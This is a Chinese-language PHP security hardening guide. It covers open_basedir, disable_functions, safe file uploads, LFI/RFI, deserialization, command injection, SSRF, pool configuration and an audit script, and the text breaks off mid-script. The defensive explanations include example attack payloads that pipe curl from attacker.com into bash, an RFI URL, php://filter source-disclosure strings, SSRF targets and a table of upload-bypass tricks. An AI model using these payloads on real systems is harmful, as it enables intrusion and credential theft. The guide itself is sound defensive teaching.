

# PHP 安全設定

> [!abstract] 這篇你會學到
> - 用 **`open_basedir` + `disable_functions`** 大幅限制 web shell 的能力
> - **正確處理檔案上傳**（驗證真實類型、重新命名、放在 web root 之外）
> - 防範 **LFI / RFI / 反序列化 / 命令注入**
> - 設定**每個站台獨立的權限隔離**
> - 建立**入侵後的損害控制**機制
> - 一份完整的 **PHP 安全檢查清單與驗證腳本**

## 前置知識

- [[060-03-01-03-guide-PHP-ini重要參數]] — php.ini 的設定方式
- [[060-03-01-02-guide-PHP-FPM設定與Pool調校]] — pool 的 `php_admin_value`
- [[060-02-02-09-guide-Nginx-安全設定]] 或 [[060-02-03-07-guide-Apache-安全與效能]] — Web 伺服器端

---

## 縱深防禦的模型



> [!tip] 這篇的核心假設
> **「假設攻擊者已經取得了 web shell」** ——
> 然後問：**他能做到什麼？**
>
> ```
> 沒有防護：
>   ✗ 讀 /etc/passwd、讀其他站台的 .env
>   ✗ 執行 id、wget、bash 反向 shell
>   ✗ 寫入任何 www-data 可寫的目錄
>   ✗ 連到內網其他主機
>   ✗ 讀取資料庫、下載整個資料表
>
> 有完整防護：
>   ✓ 只能讀寫自己站台的目錄
>   ✓ 無法執行任何系統指令
>   ✓ 無法連到未授權的網路位址
>   ✓ 行為會被 FIM 與日誌記錄
> ```

---

## `open_basedir`：限制檔案存取

```ini
; ★ 在 FPM pool 中設定（php_admin_value 不能被 ini_set 覆蓋）
php_admin_value[open_basedir] = /var/www/app/current:/var/www/app/shared:/tmp:/usr/share/php:/var/lib/php/sessions/app
```

```
open_basedir 限制【所有 PHP 的檔案系統函式】：
  fopen, file_get_contents, file_put_contents, include, require,
  opendir, scandir, glob, is_file, file_exists, unlink, copy, rename,
  move_uploaded_file, ...

★ 存取範圍外的路徑會拋出警告並回傳 false：
  Warning: file_get_contents(): open_basedir restriction in effect.
  File(/etc/passwd) is not within the allowed path(s)
```

> [!danger] `open_basedir` 不能防止 `exec()`
> ```php
> // ★ open_basedir 擋不住這個
> echo shell_exec('cat /etc/passwd');
> echo `ls -la /var/www`;
> system('curl http://attacker.com/shell.sh | bash');
> ```
> **因為 `exec()` 系列是把工作交給作業系統的 shell，
> 完全繞過 PHP 的檔案系統層。**
>
> **必須與 `disable_functions` 一起用。**

### 必須包含的路徑

```ini
php_admin_value[open_basedir] = \
    /var/www/app/current:\           ; ★ 程式碼
    /var/www/app/shared:\            ; ★ .env、storage、上傳
    /tmp:\                           ; ★ 暫存檔（漏掉會出很多錯）
    /usr/share/php:\                 ; ★ PEAR / 共用函式庫
    /var/lib/php/sessions/app:\      ; ★ session（若用檔案型）
    /usr/share/zoneinfo:\            ; 時區資料
    /dev/urandom                     ; 亂數（某些加密函式需要）
```

> [!warning] 漏掉路徑的典型症狀
> | 漏掉 | 症狀 |
> | --- | --- |
> | **`/tmp`** | 檔案上傳失敗、`tempnam()` 失敗、session 寫不進去 |
> | **`/usr/share/php`** | 某些套件 `include` 失敗 |
> | **session 路徑** | `session_start()` 失敗 |
> | `upload_tmp_dir` | `move_uploaded_file()` 失敗 |
> | `/dev/urandom` | `random_bytes()` 失敗（極少見，多數系統用 syscall） |
>
> **錯誤訊息都是**：
> ```
> open_basedir restriction in effect. File(...) is not within the allowed path(s)
> ```
> **看到這個訊息就把路徑加進去**（但要確認那個路徑真的該被存取）。

```bash
# ★ 找出應用實際需要哪些路徑
$ sudo grep 'open_basedir restriction' /var/log/php/app-error.log | \
    grep -oP 'File\(\K[^)]+' | sed 's|/[^/]*$||' | sort -u
/tmp
/usr/share/php/Symfony
/var/lib/php/sessions
```

> [!tip] `open_basedir` 的三個注意事項
> ```
> ① 路徑結尾【有無斜線】有差異
>    /var/www/app      → 也會比對到 /var/www/app-backup（★ 前綴比對）
>    /var/www/app/     → 只比對到該目錄下
>    ★ 建議加結尾斜線，或用完整的路徑
>
> ② 符號連結會被解析
>    /var/www/app/current -> releases/xxx
>    → 【要把 releases 也加進去】，或直接寫 /var/www/app
>
> ③ 有效能成本（每次檔案操作都要比對）
>    → 但相對於安全效益，這個成本可以接受
> ```

```ini
; ★ 符號連結部署的正確寫法
php_admin_value[open_basedir] = /var/www/app/:/tmp/:/usr/share/php/:/var/lib/php/sessions/app/
;                               ^^^^^^^^^^^^^ 涵蓋 current 與 releases
```

---

## `disable_functions`：限制能力

```ini
php_admin_value[disable_functions] = exec,passthru,shell_exec,system,proc_open,popen,pcntl_exec,pcntl_fork,pcntl_signal,pcntl_alarm,dl,putenv,proc_nice,proc_terminate,proc_get_status,proc_close,symlink,link,posix_kill,posix_setuid,posix_setgid,apache_child_terminate,apache_setenv,ini_alter,syslog,openlog,imap_open,ftp_exec
```

### 分類說明

```ini
; ═══ ★★ 一定要停用（執行系統指令）═══
exec, passthru, shell_exec, system, proc_open, popen, pcntl_exec
; 這五個是 web shell 的核心

; ═══ ★ 建議停用（程序控制）═══
pcntl_fork, pcntl_signal, pcntl_alarm, proc_nice, proc_terminate,
proc_get_status, proc_close, posix_kill, posix_setuid, posix_setgid

; ═══ ★ 建議停用（其他風險）═══
dl              ; 執行時載入擴充（可載入惡意的 .so）
putenv          ; ★ 修改環境變數（可能影響 LD_PRELOAD）
symlink, link   ; 建立符號連結（可能繞過 open_basedir）
ini_alter       ; ini_set 的別名
syslog, openlog ; 可用來污染系統日誌
imap_open       ; ★ CVE-2018-19518：可透過參數注入執行指令
ftp_exec        ; 透過 FTP 執行指令

; ═══ ✗ 不要停用（會壞掉）═══
file_get_contents, fopen, fwrite, file_put_contents   ; 框架大量使用
base64_decode, base64_encode                           ; 正常功能
eval                                                   ; 語言結構，停不掉
phpinfo                                                ; 停了也沒差
```

> [!warning] `disable_functions` 的取捨與測試
> ```
> 停太多 → 應用程式壞掉（而且錯誤訊息可能很不直觀）
> 停太少 → web shell 能為所欲為
> ```
>
> **常見會壞掉的情況**：
> ```
> · Laravel 的 Process facade / Symfony Process  → 需要 proc_open
> · 資料庫備份套件（呼叫 mysqldump）              → 需要 exec 或 proc_open
> · 影像處理呼叫外部工具（ImageMagick CLI）       → 需要 exec
> · PDF 產生（wkhtmltopdf、Chrome headless）      → 需要 proc_open
> · 佇列 worker 用 pcntl 處理訊號                 → 需要 pcntl_*
> ```
>
> **正確的處理方式**：
> ```ini
> ; ★ 【不要】為了一個功能就全域放寬
> ; ★ 給那個特定的 pool 單獨放寬，並用 open_basedir 限制範圍
>
> ; pool.d/app-web.conf（一般的網頁請求）
> php_admin_value[disable_functions] = exec,passthru,shell_exec,system,proc_open,popen,...
>
> ; pool.d/app-worker.conf（★ 只給佇列 worker，不對外服務）
> php_admin_value[disable_functions] = exec,passthru,shell_exec,system,popen,dl,putenv
> ;                                    ^^^ 保留 proc_open 給 Symfony Process
> ```
>
> **測試方式**：
> ```bash
> $ php artisan test                    # 完整測試套件
> $ php artisan queue:work --once       # 佇列
> $ php artisan backup:run              # 備份（若有）
> ```

```php
<?php
// ═══ 驗證 disable_functions 是否生效 ═══
$dangerous = ['exec','passthru','shell_exec','system','proc_open','popen','pcntl_exec','dl','putenv'];
$disabled = array_map('trim', explode(',', ini_get('disable_functions')));

echo "═══ 危險函式檢查 ═══\n";
foreach ($dangerous as $f) {
    $isDisabled = in_array($f, $disabled, true) || !function_exists($f);
    printf("  %-14s %s\n", $f, $isDisabled ? '✓ 已停用' : '✗✗ 【可用】');
}

echo "\n═══ 實際測試 ═══\n";
echo "  shell_exec('id'): ";
$r = @shell_exec('id');
echo $r ? "✗✗ 【成功執行】$r" : "✓ 被擋下\n";

echo "  open_basedir: " . (ini_get('open_basedir') ?: '✗✗ 【未設定】') . "\n";
echo "  讀 /etc/passwd: ";
echo @file_get_contents('/etc/passwd') ? "✗✗ 【可以讀】\n" : "✓ 被擋下\n";
```

---

## 檔案上傳安全 ★★★

> [!danger] 上傳功能是最常見的入侵入口
> ```
> 攻擊流程：
>   ① 找到檔案上傳功能
>   ② 上傳 shell.php（或用各種手法繞過檢查）
>   ③ 存取 https://網站/uploads/shell.php
>   ④ 【取得 web shell → 整台機器淪陷】
> ```

### 常見的繞過手法

| 手法 | 範例 | 為什麼有效 |
| --- | --- | --- |
| **雙重副檔名** | `shell.php.jpg` | 某些設定會依「第一個」副檔名判斷 |
| **PathInfo** | `shell.jpg/x.php` | `cgi.fix_pathinfo=1` 時 PHP 往前找 |
| **大小寫** | `shell.PHP`、`shell.PhP` | 檢查沒有 `strtolower()` |
| **替代副檔名** | `.phtml` `.php5` `.phar` `.inc` | 只擋了 `.php` |
| **空位元組**（舊版） | `shell.php%00.jpg` | PHP < 5.3.4 的字串截斷 |
| **`.htaccess`** | 上傳一個 `.htaccess` | `AddType application/x-httpd-php .jpg` |
| **偽造 MIME** | 改 `Content-Type: image/jpeg` | 只檢查 `$_FILES['x']['type']`（★ 完全可偽造） |
| **圖片馬** | 真的 JPEG + 尾端附加 PHP 碼 | 通過 `getimagesize()` 檢查 |
| **ZIP 解壓縮** | 上傳 zip，解壓後有 php | 解壓縮時沒檢查 |
| **SVG** | SVG 中嵌入 `<script>` | XSS（不是 RCE 但一樣危險） |

### 完整的防護實作

```php
<?php
declare(strict_types=1);

/**
 * 安全的檔案上傳處理
 * ★ 七道防線
 */
final class SecureUpload
{
    // ★ 白名單（絕對不要用黑名單）
    private const ALLOWED = [
        'image/jpeg' => ['jpg', 'jpeg'],
        'image/png'  => ['png'],
        'image/gif'  => ['gif'],
        'image/webp' => ['webp'],
        'application/pdf' => ['pdf'],
    ];

    private const MAX_SIZE = 10 * 1024 * 1024;   // 10 MB

    // ★ 存放在 web root 之外
    private const STORAGE = '/var/data/app-uploads';

    public function handle(array $file): array
    {
        // ══ 防線 1：檢查上傳錯誤 ══
        if (($file['error'] ?? UPLOAD_ERR_NO_FILE) !== UPLOAD_ERR_OK) {
            throw new RuntimeException($this->errorMessage($file['error']));
        }

        // ══ 防線 2：★ 確認真的是透過 HTTP POST 上傳的 ══
        if (!is_uploaded_file($file['tmp_name'])) {
            throw new RuntimeException('非法的上傳來源');
        }

        // ══ 防線 3：大小 ══
        if ($file['size'] > self::MAX_SIZE || $file['size'] <= 0) {
            throw new RuntimeException('檔案大小不符');
        }

        // ══ 防線 4：★★ 用 finfo 檢查【真實】的 MIME（不信任 $_FILES['type']）══
        $finfo = new finfo(FILEINFO_MIME_TYPE);
        $realMime = $finfo->file($file['tmp_name']);
        if (!isset(self::ALLOWED[$realMime])) {
            throw new RuntimeException("不允許的檔案類型：{$realMime}");
        }

        // ══ 防線 5：★ 副檔名必須與真實類型相符 ══
        $ext = strtolower(pathinfo($file['name'], PATHINFO_EXTENSION));
        if (!in_array($ext, self::ALLOWED[$realMime], true)) {
            throw new RuntimeException('副檔名與檔案內容不符');
        }

        // ══ 防線 6：★★ 圖片要重新處理（移除 EXIF 中的惡意內容與「圖片馬」）══
        if (str_starts_with($realMime, 'image/')) {
            $this->reencodeImage($file['tmp_name'], $realMime);
        }

        // ══ 防線 7：★★ 重新命名（不使用任何使用者提供的字串）══
        $newName = bin2hex(random_bytes(16)) . '.' . $ext;
        $subdir  = substr($newName, 0, 2);       // 分散目錄，避免單一目錄過多檔案
        $dir     = self::STORAGE . '/' . $subdir;

        if (!is_dir($dir) && !mkdir($dir, 0750, true) && !is_dir($dir)) {
            throw new RuntimeException('無法建立目錄');
        }

        $dest = $dir . '/' . $newName;
        if (!move_uploaded_file($file['tmp_name'], $dest)) {
            throw new RuntimeException('儲存失敗');
        }

        // ★ 權限：不可執行
        chmod($dest, 0640);

        return [
            'stored_name'   => $subdir . '/' . $newName,
            'original_name' => $this->sanitizeName($file['name']),   // 只用於顯示
            'mime'          => $realMime,
            'size'          => $file['size'],
            'hash'          => hash_file('sha256', $dest),
        ];
    }

    /** ★ 重新編碼圖片：徹底移除嵌入的 PHP 程式碼與惡意 EXIF */
    private function reencodeImage(string $path, string $mime): void
    {
        $img = match ($mime) {
            'image/jpeg' => @imagecreatefromjpeg($path),
            'image/png'  => @imagecreatefrompng($path),
            'image/gif'  => @imagecreatefromgif($path),
            'image/webp' => @imagecreatefromwebp($path),
            default      => false,
        };
        if ($img === false) {
            throw new RuntimeException('無法解析圖片（可能是偽造的）');
        }

        // 保留透明度
        if (in_array($mime, ['image/png', 'image/webp', 'image/gif'], true)) {
            imagealphablending($img, false);
            imagesavealpha($img, true);
        }

        $ok = match ($mime) {
            'image/jpeg' => imagejpeg($img, $path, 90),
            'image/png'  => imagepng($img, $path, 6),
            'image/gif'  => imagegif($img, $path),
            'image/webp' => imagewebp($img, $path, 90),
        };
        imagedestroy($img);

        if (!$ok) throw new RuntimeException('圖片重新編碼失敗');
    }

    /** ★ 原始檔名只用於顯示，必須完整清理 */
    private function sanitizeName(string $name): string
    {
        $name = basename($name);                              // 移除路徑
        $name = preg_replace('/[^\p{L}\p{N}._\- ]/u', '', $name);  // 只保留安全字元
        $name = preg_replace('/\.{2,}/', '.', $name);         // 移除連續的點
        return mb_substr(trim($name), 0, 200) ?: 'file';
    }

    private function errorMessage(int $code): string
    {
        return match ($code) {
            UPLOAD_ERR_INI_SIZE   => '超過 upload_max_filesize',
            UPLOAD_ERR_FORM_SIZE  => '超過表單的 MAX_FILE_SIZE',
            UPLOAD_ERR_PARTIAL    => '檔案只上傳了一部分',
            UPLOAD_ERR_NO_FILE    => '沒有選擇檔案',
            UPLOAD_ERR_NO_TMP_DIR => '暫存目錄不存在（★ 檢查 upload_tmp_dir 與 open_basedir）',
            UPLOAD_ERR_CANT_WRITE => '無法寫入暫存目錄（★ 檢查權限）',
            UPLOAD_ERR_EXTENSION  => '某個 PHP 擴充阻止了上傳',
            default               => "未知的上傳錯誤（{$code}）",
        };
    }
}
```

### 提供下載（`X-Accel-Redirect`）

```php
<?php
// ★ 檔案在 web root 之外，透過程式提供下載（順便做權限檢查）
public function download(int $fileId)
{
    $file = File::findOrFail($fileId);

    // ★ 權限檢查
    $this->authorize('view', $file);

    // ★ 用 X-Accel-Redirect 讓 Nginx 處理實際傳輸
    //   PHP-FPM 的 worker 立刻釋放
    return response('', 200, [
        'X-Accel-Redirect'    => '/protected-files/' . $file->stored_name,
        'Content-Type'        => $file->mime,
        'Content-Disposition' => 'attachment; filename="' .
                                  addslashes($file->original_name) . '"',
        'X-Content-Type-Options' => 'nosniff',
    ]);
}
```

```nginx
location ^~ /protected-files/ {
    internal;                              # ★ 只能內部跳轉
    alias /var/data/app-uploads/;
    add_header X-Content-Type-Options "nosniff" always;
    add_header Content-Disposition "attachment" always;
}
```

> [!danger] 如果上傳的檔案「必須」放在 web root 內
> ```nginx
> # ★ Nginx：明確禁止執行
> location ^~ /uploads/ {
>     location ~* \.(?:php|phtml|phar|php\d?|pl|py|cgi|sh|asp|aspx|jsp)$ {
>         deny all;
>         access_log /var/log/nginx/upload-exec-attempt.log;
>         return 404;
>     }
>     add_header X-Content-Type-Options "nosniff" always;
>     add_header Content-Disposition "attachment" always;   # ★ 強制下載
>     add_header Content-Security-Policy "default-src 'none'" always;  # ★ 防 SVG XSS
> }
> ```
> ```apache
> # ★ Apache
> <Directory /var/www/app/public/uploads>
>     AllowOverride None                   # ★★ 防止上傳 .htaccess
>     php_admin_flag engine off            # ★ mod_php
>     Options -ExecCGI -Includes -Indexes
>     <FilesMatch "\.(php|phtml|phar|php\d?)$">
>         Require all denied
>         SetHandler none
>     </FilesMatch>
>     Header always set X-Content-Type-Options "nosniff"
>     Header always set Content-Disposition "attachment"
> </Directory>
> ```
> **但最好的做法仍然是：放在 web root 之外。**

---

## 常見漏洞的防範

### LFI / RFI（檔案包含）

```php
<?php
// ❌❌ 極度危險
include $_GET['page'] . '.php';
// 攻擊：?page=../../../../etc/passwd%00
//       ?page=php://filter/convert.base64-encode/resource=config
//       ?page=http://attacker.com/shell（若 allow_url_include=On）

// ✅ 白名單
$allowed = ['home' => 'pages/home.php', 'about' => 'pages/about.php'];
$page = $_GET['page'] ?? 'home';
if (!isset($allowed[$page])) { abort(404); }
include __DIR__ . '/' . $allowed[$page];
```

```ini
allow_url_include = Off      ; ★★ 一定要（防 RFI）
allow_url_fopen = On         ; 多數框架需要（但要注意 SSRF）
```

> [!warning] `php://filter` 可以讀出原始碼
> ```
> ?page=php://filter/convert.base64-encode/resource=../config/database
>   → 回傳 base64 編碼的 database.php 內容
>     → 【資料庫密碼外洩】
> ```
> `open_basedir` 可以限制範圍，但**白名單才是根本解法**。

### 反序列化

```php
<?php
// ❌❌ 極度危險
$obj = unserialize($_COOKIE['data']);
// 攻擊者可以構造 payload 觸發 __destruct/__wakeup/__toString
// → POP chain → 任意程式碼執行

// ✅ 方法一：用 JSON
$data = json_decode($_COOKIE['data'], true, 512, JSON_THROW_ON_ERROR);

// ✅ 方法二：限制可反序列化的類別
$obj = unserialize($input, ['allowed_classes' => [SafeDto::class]]);

// ✅ 方法三：不允許任何物件
$obj = unserialize($input, ['allowed_classes' => false]);

// ✅ 方法四：加簽驗證
$payload = base64_decode($_COOKIE['data']);
[$sig, $data] = explode('|', $payload, 2);
if (!hash_equals(hash_hmac('sha256', $data, $secretKey), $sig)) {
    abort(400);
}
```

### 命令注入

```php
<?php
// ❌❌ 極度危險
system("convert {$_GET['file']} out.png");
// 攻擊：?file=a.jpg; curl http://attacker.com/s.sh | bash

// ⚠ 不夠：escapeshellarg 只擋參數，擋不住選項注入
system('convert ' . escapeshellarg($_GET['file']) . ' out.png');
// 攻擊：?file=-write|bash -c 'curl ...'      （ImageMagick 的選項）

// ✅ 用 proc_open + 陣列參數（★ 不經過 shell）
$proc = proc_open(
    ['convert', $safeFile, 'out.png'],       // ★ PHP 7.4+ 支援陣列
    [1 => ['pipe','w'], 2 => ['pipe','w']],
    $pipes
);

// ✅ Symfony Process（Laravel 內建）
use Symfony\Component\Process\Process;
$process = new Process(['convert', $safeFile, 'out.png']);
$process->setTimeout(30);
$process->run();

// ✅✅ 最好：用 PHP 擴充，完全不呼叫外部指令
$img = new Imagick($safeFile);
$img->writeImage('out.png');
```

> [!tip] `disable_functions` 是這裡的最後一道防線
> 即使程式碼有命令注入漏洞，
> **停用了 `exec`/`system`/`shell_exec`/`proc_open` 就無法利用**。

### SSRF

```php
<?php
// ❌ 危險：使用者控制的 URL
$data = file_get_contents($_GET['url']);
// 攻擊：?url=http://169.254.169.254/latest/meta-data/    （雲端 metadata）
//       ?url=http://127.0.0.1:6379/                       （內部 Redis）
//       ?url=file:///etc/passwd

// ✅ 白名單 + 驗證
function safeFetch(string $url): string
{
    $parts = parse_url($url);
    if (!$parts || !in_array($parts['scheme'] ?? '', ['http','https'], true)) {
        throw new InvalidArgumentException('只允許 http/https');
    }
    // ★ 解析 IP 並檢查是否為內網
    $ip = gethostbyname($parts['host']);
    if (!filter_var($ip, FILTER_VALIDATE_IP,
            FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
        throw new InvalidArgumentException('不允許連到內部位址');
    }
    // ★ 白名單網域
    $allowed = ['api.example.gov.tw', 'data.gov.tw'];
    if (!in_array($parts['host'], $allowed, true)) {
        throw new InvalidArgumentException('網域不在白名單中');
    }

    $ch = curl_init($url);
    curl_setopt_array($ch, [
        CURLOPT_RETURNTRANSFER => true,
        CURLOPT_FOLLOWLOCATION => false,      // ★ 不跟隨轉址（防繞過）
        CURLOPT_TIMEOUT        => 10,
        CURLOPT_PROTOCOLS      => CURLPROTO_HTTP | CURLPROTO_HTTPS,
    ]);
    return curl_exec($ch) ?: '';
}
```

**系統層的防護**：
```bash
# ★ 出向防火牆：只允許連到必要的位址
$ sudo ufw default deny outgoing
$ sudo ufw allow out 53                       # DNS
$ sudo ufw allow out to 10.0.5.10 port 3306   # 資料庫
$ sudo ufw allow out to any port 443          # HTTPS（或更嚴格的白名單）
```

---

## 完整的安全設定

```ini
; ═══════════ /etc/php/8.3/fpm/pool.d/app.conf ═══════════
[app]

; ══ 執行身分 ══
user  = app-user
group = app-user

listen = /run/php/php8.3-fpm-app.sock
listen.owner = www-data
listen.group = www-data
listen.mode  = 0660

; ══ 程序管理（見 02 篇）══
pm = dynamic
pm.max_children = 30
pm.start_servers = 8
pm.min_spare_servers = 5
pm.max_spare_servers = 12
pm.max_requests = 500

; ══ ★★ 檔案存取限制 ══
php_admin_value[open_basedir] = /var/www/app/:/var/data/app-uploads/:/tmp/:/usr/share/php/:/var/lib/php/sessions/app/

; ══ ★★ 停用危險函式 ══
php_admin_value[disable_functions] = exec,passthru,shell_exec,system,proc_open,popen,pcntl_exec,pcntl_fork,pcntl_signal,pcntl_alarm,dl,putenv,proc_nice,proc_terminate,proc_get_status,proc_close,symlink,link,posix_kill,posix_setuid,posix_setgid,ini_alter,syslog,openlog,imap_open,ftp_exec,apache_child_terminate,apache_setenv

; ══ ★ 核心安全設定 ══
php_admin_value[cgi.fix_pathinfo] = 0
php_admin_flag[allow_url_include] = off
php_admin_flag[allow_url_fopen] = on
php_admin_value[expose_php] = 0
php_admin_flag[enable_dl] = off

; ══ ★ 錯誤處理 ══
php_admin_flag[display_errors] = off
php_admin_flag[display_startup_errors] = off
php_admin_flag[log_errors] = on
php_admin_value[error_log] = /var/log/php/app-error.log
php_admin_flag[html_errors] = off
php_admin_flag[zend.exception_ignore_args] = on
php_admin_value[zend.exception_string_param_max_len] = 0

; ══ ★ Session ══
php_admin_value[session.save_path] = /var/lib/php/sessions/app
php_admin_flag[session.cookie_httponly] = on
php_admin_flag[session.cookie_secure] = on
php_admin_value[session.cookie_samesite] = Lax
php_admin_flag[session.use_strict_mode] = on
php_admin_flag[session.use_only_cookies] = on
php_admin_flag[session.use_trans_sid] = off
php_admin_value[session.sid_length] = 48
php_admin_value[session.name] = APPSESSID

; ══ ★ 上傳 ══
php_admin_value[upload_tmp_dir] = /var/www/app/shared/tmp
php_admin_value[upload_max_filesize] = 10M
php_admin_value[post_max_size] = 12M
php_admin_value[max_file_uploads] = 10

; ══ ★ 資源限制（避免單一請求拖垮系統）══
php_admin_value[memory_limit] = 256M
php_admin_value[max_execution_time] = 60
php_admin_value[max_input_time] = 60
php_admin_value[max_input_vars] = 2000

; ══ 逾時 ══
request_terminate_timeout = 120s
request_slowlog_timeout = 5s
slowlog = /var/log/php/app-slow.log
```

```bash
# ★ 檔案權限
$ sudo useradd -r -M -d /var/www/app -s /usr/sbin/nologin app-user

# 程式碼：app-user 讀，不可寫
$ sudo chown -R root:app-user /var/www/app/releases
$ sudo find /var/www/app/releases -type d -exec chmod 750 {} \;
$ sudo find /var/www/app/releases -type f -exec chmod 640 {} \;

# ★ 只有這些目錄 PHP 可寫
$ sudo chown -R app-user:app-user /var/www/app/shared/storage
$ sudo chmod -R 750 /var/www/app/shared/storage
$ sudo chown app-user:app-user /var/data/app-uploads
$ sudo chmod 750 /var/data/app-uploads

# ★★ .env 最嚴格
$ sudo chown app-user:app-user /var/www/app/shared/.env
$ sudo chmod 400 /var/www/app/shared/.env

# session
$ sudo mkdir -p /var/lib/php/sessions/app
$ sudo chown app-user:app-user /var/lib/php/sessions/app
$ sudo chmod 700 /var/lib/php/sessions/app
```

> [!tip] 「程式碼目錄 PHP 不可寫」是重要的防線
> ```
> 若 PHP 可以寫入程式碼目錄：
>   → 攻擊者取得任意檔案寫入漏洞
>     → 直接寫一個 shell.php 到 public/
>       → 【立刻取得 web shell】
>
> 若程式碼目錄是唯讀（root:app-user 750）：
>   → 攻擊者【寫不進去】
>     → 只能寫到 storage/ 與 uploads/（而這兩個已禁止執行）
> ```
>
> **例外**：Laravel 需要寫入 `storage/` 與 `bootstrap/cache/`，
> 這兩個目錄要單獨開放（且它們在 web root 之外）。

---

## 完整實戰範例

### PHP 安全稽核腳本

```bash
#!/usr/bin/env bash
# /usr/local/bin/php-security-audit
D="${1:-127.0.0.1}"
SCHEME="${2:-http}"
DOCROOT="${3:-}"
FAIL=0; WARN=0
pass() { printf '  \033[32m✓\033[0m %s\n' "$1"; }
warn() { printf '  \033[33m⚠\033[0m %s\n' "$1"; WARN=$((WARN+1)); }
fail() { printf '  \033[31m✗\033[0m %s\n' "$1"; FAIL=$((FAIL+1)); }

[ -z "$DOCROOT" ] && DOCROOT=$(sudo nginx -T 2>/dev/null | \
    grep -oP '^\s*root\s+\K\S+' | tr -d ';' | head -1)
DOCROOT="${DOCROOT:-/var/www/html}"

echo "═══════ PHP 安全稽核 ═══════"

# ── 建立檢查腳本 ──
sudo tee "$DOCROOT/_secaudit.php" >/dev/null <<'PHPEOF'
<?php
$out = [];
$out['php_version'] = PHP_VERSION;
$out['sapi'] = php_sapi_name();
$out['user'] = function_exists('posix_geteuid')
    ? (posix_getpwuid(posix_geteuid())['name'] ?? '?') : '?';
foreach (['open_basedir','disable_functions','cgi.fix_pathinfo','allow_url_include',
          'allow_url_fopen','expose_php','display_errors','log_errors','error_log',
          'session.cookie_httponly','session.cookie_secure','session.cookie_samesite',
          'session.use_strict_mode','session.save_path','session.name',
          'upload_tmp_dir','upload_max_filesize','post_max_size',
          'memory_limit','max_execution_time','max_input_vars',
          'zend.exception_ignore_args','enable_dl'] as $k) {
    $out["ini.$k"] = ini_get($k);
}
// ★ 實際測試
$out['test.shell_exec'] = @shell_exec('id') ? 'EXECUTED' : 'BLOCKED';
$out['test.read_passwd'] = @file_get_contents('/etc/passwd') ? 'READABLE' : 'BLOCKED';
$out['test.write_docroot'] = @file_put_contents(__DIR__ . '/_wtest.tmp', 'x')
    ? 'WRITABLE' : 'READONLY';
@unlink(__DIR__ . '/_wtest.tmp');
$out['ext.xdebug'] = extension_loaded('xdebug') ? 'LOADED' : 'no';
foreach ($out as $k => $v) echo "$k=", is_bool($v) ? var_export($v,true) : $v, "\n";
PHPEOF

OUT=$(curl -sk -m 10 "$SCHEME://$D/_secaudit.php" 2>/dev/null)
sudo rm -f "$DOCROOT/_secaudit.php" "$DOCROOT/_wtest.tmp"
[ -z "$OUT" ] && { echo "✗ 無法取得設定"; exit 1; }
g() { echo "$OUT" | grep -oP "^$1=\K.*"; }

echo "  PHP $(g php_version)  SAPI=$(g sapi)  執行身分=$(g user)"

echo -e "\n【★★ 核心安全設定】"
[ "$(g 'ini.cgi.fix_pathinfo')" = "0" ] || [ -z "$(g 'ini.cgi.fix_pathinfo')" ] \
  && pass "cgi.fix_pathinfo = 0" || fail "cgi.fix_pathinfo 不是 0【PathInfo 攻擊風險】"
[ -z "$(g 'ini.allow_url_include')" ] || [ "$(g 'ini.allow_url_include')" = "0" ] \
  && pass "allow_url_include = Off" || fail "allow_url_include 開啟【RFI 風險】"
[ -z "$(g 'ini.display_errors')" ] || [ "$(g 'ini.display_errors')" = "0" ] \
  && pass "display_errors = Off" || fail "display_errors 開啟【資訊洩漏】"
[ -z "$(g 'ini.expose_php')" ] || [ "$(g 'ini.expose_php')" = "0" ] \
  && pass "expose_php = Off" || warn "expose_php 開啟"
[ "$(g 'ini.enable_dl')" = "" ] || [ "$(g 'ini.enable_dl')" = "0" ] \
  && pass "enable_dl = Off" || warn "enable_dl 開啟"

echo -e "\n【★★ open_basedir】"
OB=$(g 'ini.open_basedir')
if [ -n "$OB" ]; then
    pass "已設定"
    echo "$OB" | tr ':' '\n' | sed 's/^/      /'
    for p in /tmp /usr/share/php; do
        echo "$OB" | grep -q "$p" || warn "  未包含 $p（可能造成應用出錯）"
    done
else
    fail "★★ 未設定 open_basedir"
fi

echo -e "\n【★★ disable_functions】"
DF=$(g 'ini.disable_functions')
if [ -n "$DF" ]; then
    pass "已設定（$(echo "$DF" | tr ',' '\n' | wc -l) 個函式）"
    for f in exec passthru shell_exec system proc_open popen pcntl_exec dl putenv; do
        echo "$DF" | grep -qw "$f" && printf '      ✓ %s\n' "$f" \
                                   || printf '      \033[31m✗ %s【未停用】\033[0m\n' "$f"
    done
else
    fail "★★ 未設定 disable_functions"
fi

echo -e "\n【★★ 實際滲透測試】"
[ "$(g 'test.shell_exec')" = "BLOCKED" ] && pass "shell_exec('id') 被擋下" \
                                         || fail "★★ shell_exec 可以執行系統指令！"
[ "$(g 'test.read_passwd')" = "BLOCKED" ] && pass "無法讀取 /etc/passwd" \
                                          || fail "★★ 可以讀取 /etc/passwd（open_basedir 無效）"
[ "$(g 'test.write_docroot')" = "READONLY" ] && pass "無法寫入 web root（★ 很重要）" \
                                             || warn "★ 可以寫入 web root（任意寫入漏洞可直接放 shell）"

echo -e "\n【Session】"
[ "$(g 'ini.session.cookie_httponly')" = "1" ] && pass "cookie_httponly" || fail "cookie_httponly 未開"
[ "$(g 'ini.session.cookie_secure')" = "1" ]   && pass "cookie_secure"   || warn "cookie_secure 未開"
[ -n "$(g 'ini.session.cookie_samesite')" ]    && pass "cookie_samesite = $(g 'ini.session.cookie_samesite')" \
                                               || warn "cookie_samesite 未設"
[ "$(g 'ini.session.use_strict_mode')" = "1" ] && pass "use_strict_mode（防 session fixation）" \
                                               || fail "use_strict_mode 未開"
SP=$(g 'ini.session.save_path')
echo "  ○ save_path: ${SP:-（預設）}"
[ -n "$SP" ] && [ -d "$SP" ] && {
    PERM=$(stat -c '%a' "$SP" 2>/dev/null)
